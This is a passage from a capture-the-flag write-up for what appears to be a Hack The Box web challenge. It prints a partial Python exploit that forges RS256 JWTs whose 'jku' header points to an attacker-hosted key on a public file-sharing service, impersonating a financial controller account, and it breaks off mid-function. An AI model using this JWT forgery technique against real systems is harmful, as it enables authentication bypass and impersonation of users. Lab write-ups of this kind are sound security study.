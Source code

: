 # The wrapper

As I was struggling with some tools and doing all my requests using curl, I realized that a Python wrapper have been provided with the source code which could have saved me so much time. Most of the code such as functions for login, registration, transactions etc. was already provided. All I had to do was to put all the pieces together. However, having to go through everything manually without the wrapper gave me a deeper understanding of what was involved. That said I still took the wrapper, and optimized it to get the flag fully automatically. 

## Constraints

Like most of us, I do not have a server ready to be used as an evil endpoint at anytime to host my keys and inject the value into `jku`. So I used [TMP Files](https://tmpfiles.org) which allow you to upload files to the web, available through a link for a limited time for free with an API. 

I also had to automate the asymetric key generation using another Python module. This step is clearly optional but I really wanted to fully automate the solution.

## Code 

```Python
import requests, datetime, os, jwt, json
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa
from jwcrypto import jwk 

HOST = 'http://127.0.0.1:1337'
FINANCIAL_EMAIL = 'financial-controller@frontier-board.htb'
COIN_SYMBOL = 'CLCR'


def create_forged_jwt(jku_url, kid, priv_key, payload):
    tok = {
        "header":{
            "alg": "RS256",
            "typ": "JWT",
            "kid": kid,
            "jku": jku_url
        },
        "payload":payload
    }
    return jwt.encode(tok["payload"], priv_key, "RS256", tok["header"]) 

def validate_token(forged_token):
    response = requests.get(f'{HOST}/api/dashboard', headers={'Authorization': f'Bearer {forged_token}'})
    if response.status_code == 200:
        print('[+] JWT validation successful! Response:')
        print(response.json())
    else:
        print(f'[!] JWT validation failed. Status: {response.status_code}, Response: {response.text}')

payload = {
    'email': FINANCIAL_EMAIL,
    'iat': datetime.datetime.utcnow(),
    'exp': datetime.datetime.utcnow() + datetime.timedelta(days=0, hours=6, seconds=0)
}

def register_user(email, password):
    user = {'email': email, 'password': password}
    r = requests.post(
        f'{HOST}/api/auth/register', 
```
